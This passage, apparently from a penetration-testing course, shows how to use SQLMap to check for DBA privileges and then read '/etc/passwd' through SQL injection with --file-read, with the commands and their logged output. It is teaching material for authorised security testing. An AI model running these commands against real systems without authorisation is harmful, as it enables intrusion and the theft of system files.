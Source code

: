     [17:31:55] [INFO] resuming back-end DBMS 'mysql'
    [17:31:55] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ...SNIP...
    current user is DBA: False

    [*] ending @ 17:31:56 /2020-11-19

As we can see, if we test that on one of the previous exercises, we get `current user is DBA: False`, meaning that we do not have DBA access. If we tried to read a file using SQLMap, we would get something like:

    [17:31:43] [INFO] fetching file: '/etc/passwd'
    [17:31:43] [ERROR] no data retrieved

To test OS exploitation, let's try an exercise in which we do have DBA privileges, as seen in the questions at the end of this section:

`sqlmap -u "http://www.example.com/?id=1" --is-dba`

    [*] starting @ 17:37:47 /2020-11-19/

    [17:37:47] [INFO] resuming back-end DBMS 'mysql'
    [17:37:47] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ...SNIP...
    current user is DBA: True

    [*] ending @ 17:37:48 /2020-11-19/

We see that this time we get `current user is DBA: True`, meaning that we may have the privilege to read local files.

### Reading Local Files

Instead of manually injecting the above line through SQLi, SQLMap makes it relatively easy to read local files with the `--file-read` option:

`sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"`

    [*] starting @ 17:40:00 /2020-11-19/

    [17:40:00] [INFO] resuming back-end DBMS 'mysql'
    [17:40:00] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ...SNIP...
    [17:40:01] [INFO] fetching file: '/etc/passwd'
    [17:40:01] [WARNING] time-based comparison requires larger statistical model, please wait............................. (done)
    [17:40:07] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
    [17:40:07] [WARNING] unable to retrieve the content of the file '/etc/passwd', going to fall-back to simpler UNION technique
    [17:40:07] [INFO] fetching file: '/etc/passwd'
    do you want confirmation that the remote file '/etc/passwd' has been successfully downloaded from the back-end DBMS file system? [Y/n] y
